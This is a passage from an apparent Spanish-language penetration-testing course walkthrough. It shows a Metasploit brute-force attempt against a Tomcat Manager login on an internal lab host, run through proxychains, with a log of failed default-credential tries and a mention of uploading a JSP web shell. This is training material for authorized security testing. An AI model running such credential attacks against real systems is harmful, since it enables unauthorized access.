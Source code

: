 Desafortunadamente para nosotros, esto es un callejón sin salida.

---

## 172.16.8.50 - Tomcat

Nuestro escaneo Nmap anterior mostró el puerto 8080 abierto en este host. Al navegar a `http://172.16.8.50:8080`, vemos la última versión de Tomcat 10 instalada. Aunque no hay exploits públicos para ello, podemos intentar forzar la autenticación del Tomcat Manager como se muestra en la sección [Attacking Tomcat](https://academy.hackthebox.com/module/113/section/1211) del módulo `Attacking Common Applications`. Podemos iniciar otra instancia de Metasploit usando Proxychains escribiendo `proxychains msfconsole` para poder pivotar a través del host dmz01 comprometido si no tenemos el enrutamiento configurado a través de una sesión de Meterpreter. Luego podemos usar el módulo `auxiliary/scanner/http/tomcat_mgr_login` para intentar forzar la autenticación.



```r
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 172.16.8.50
rhosts => 172.16.8.50
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
stop_on_success => true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK

[!] No active DB -- Credential data will not be saved!
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:admin (Incorrect)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:manager (Incorrect)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:role1 (Incorrect)

<SNIP>

|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: tomcat:changethis (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

No obtenemos una autenticación exitosa, por lo que esto parece ser un callejón sin salida y no vale la pena explorar más. Si encontráramos una página de autenticación de Tomcat Manager expuesta a Internet, probablemente querríamos registrarlo como un hallazgo, ya que un atacante podría forzar la autenticación y usarla para obtener acceso inicial. Durante una interna, solo querríamos reportarlo si pudiéramos entrar con credenciales débiles y subir una shell web JSP. De lo contrario, verlo en una red interna es normal si está bien bloqueado.

---

## Enumerating 172.16.8.20 - DotNetNuke (DNN)
